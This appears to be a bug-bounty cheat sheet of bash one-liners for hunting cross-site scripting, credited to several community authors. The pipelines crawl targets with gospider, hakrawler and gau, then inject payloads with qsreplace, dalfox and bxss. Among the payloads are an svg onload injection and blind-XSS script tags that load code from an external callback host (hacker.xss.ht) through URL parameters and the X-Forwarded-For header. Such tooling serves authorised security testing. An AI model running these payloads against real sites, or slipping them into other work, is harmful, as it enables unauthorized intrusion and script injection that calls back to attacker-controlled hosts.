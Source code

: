 ## Find XSS
> cihanmehmet
### Single target
```bash
gospider -s "https://www.target.com/" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
### Multiple target
```bash
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
## Find XSS
> dwisiswant0
```bash
#/bin/bash

hakrawler -url "${1}" -plain -usewayback -wayback | grep "${1}" | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | kxss | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | dalfox pipe -b https://your.xss.ht

# save to .sh, and run bash program.sh target.com
```
## Kxss to search param XSS
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
echo http://testphp.vulnweb.com/ | waybackurls | kxss
```

## XSS hunting multiple
> @ofjaaah
```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## BXSS - Bling XSS in Parameters
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```bash
subfinder -d target.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

## Blind XSS In X-Forwarded-For Header
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```bash
subfinder -d target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"
```
